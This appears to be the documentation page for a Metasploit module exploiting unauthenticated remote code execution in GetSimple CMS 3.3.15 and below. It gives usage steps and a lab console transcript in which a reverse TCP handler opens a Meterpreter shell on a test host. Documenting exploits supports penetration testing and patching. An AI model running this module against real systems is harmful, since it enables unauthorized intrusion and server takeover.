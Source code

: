 ## Description

  This module exploits a vulnerability found in GetSimpleCMS, which
  allows unauthenticated attackers to perform Remote Code Execution.
  An arbitrary file upload vulnerability can be triggered by an
  authenticated user, however authentication can be bypassed by leaking
  the cms API key to target the session manager.

## Vulnerable Application

  GetSimple CMS versions 3.3.15 and below

  Vulnerable installations can be found [here](http://get-simple.info/)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/getsimplecms_unauth_code_exec```
  4. Do: ```set RHOSTS <IP>```
  4. Do: ```run```
  5. You should get a shell.

## Scenarios

### Tested on GetSimple CMS v3.3.15 on Ubuntu 18.04

  ```
  msf > use exploit/multi/http/getsimplecms_unauth_code_exec
  msf exploit(multi/http/getsimplecms_unauth_code_exec) > set rhosts 192.168.37.137
  rhosts => 192.168.37.137
  msf exploit(multi/http/getsimplecms_unauth_code_exec) > set verbose true
  verbose => true
  msf exploit(multi/http/getsimplecms_unauth_code_exec) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] GetSimpleCMS version 3315
  [*] Sending stage (38247 bytes) to 192.168.37.137
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.137:32976) at 2019-05-16 11:22:39 -0500

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > sysinfo
  Computer    : ubuntu
  OS          : Linux ubuntu 4.18.0-16-generic #17~18.04.1-Ubuntu SMP Tue Feb 12 13:35:51 UTC 2019 x86_64
  Meterpreter : php/linux
  meterpreter >
  ```
